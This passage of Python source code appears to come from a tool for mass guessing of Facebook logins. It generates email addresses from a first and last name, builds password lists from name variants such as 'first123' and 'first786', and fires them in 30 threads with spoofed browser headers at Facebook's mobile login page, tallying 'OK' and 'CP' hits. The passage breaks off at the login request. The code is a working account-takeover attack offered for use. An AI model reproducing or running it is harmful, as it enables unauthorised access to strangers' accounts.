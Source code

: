                 except ValueError:
                        limit = 5000
                linex()
                print(' Getting gmails...')
                lists = ['3','4']
                for xd in range(limit):
                        lchoice = random.choice(lists)
                        if '3' in lchoice:
                                mail = ''.join(random.choice(string.digits) for _ in range(3))
                                open('.re.txt','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
                        else:
                                mail = ''.join(random.choice(string.digits) for _ in range(4))
                                open('.re.txt','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
                        fo = open('.re.txt', 'r').read().splitlines()
                with tred(max_workers=30) as Aking:
                        total = str(len(fo))
                        clear()
                        print(' Total account : \033[1;32m'+total)
                        print("\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;37m")
                        linex()
                        for user in fo:
                                ids,names = user.split('|')
                                first_name = names.rsplit(' ')[0]
                                try:
                                        last_name = names.rsplit(' ')[1]
                                except IndexError:
                                        last_name = 'Khan'
                                fs = first_name.lower()
                                ls = last_name.lower()
                                passlist = [fs+ls,fs+' '+ls,fs+'123',fs+'12345',fs+'1122',fs,fs+'1234',fs+'786',fs+'12']
                                Aking.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python bht.py')
def ffb(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write('\r\r\033[1;37m [JALIIIL-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(' ')[0]
                try:
                        last = names.split(' ')[1]
                except:
                        last = 'Khan'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
                        pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')